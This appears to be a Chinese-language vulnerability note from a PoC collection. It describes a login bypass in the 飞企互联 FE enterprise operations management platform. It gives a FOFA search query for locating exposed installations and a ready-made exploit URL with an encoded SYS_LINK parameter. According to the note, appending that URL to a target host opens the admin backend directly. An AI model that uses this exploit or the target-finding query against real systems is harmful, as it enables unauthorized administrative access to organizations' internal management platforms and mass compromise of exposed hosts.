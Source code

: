 ## 飞企互联-FE企业运营管理平台登录绕过漏洞

## fofa
```
app="飞企互联-FE企业运营管理平台"
```

## poc
```
http://your-ip/2.ln?SYS_LINK=77507068764957484a5067777862714f457a66574871642f4330574c76717868394a35496d37416c497951724f33446f51486375685a5a2b31684938472b7056

```
直接拼接url即可进入后台

![fd7e14ccbaa56a175bd9ab981fcced4b](../../images/96ef5111-e48d-4dac-935c-dcb2003f2cd6.png)
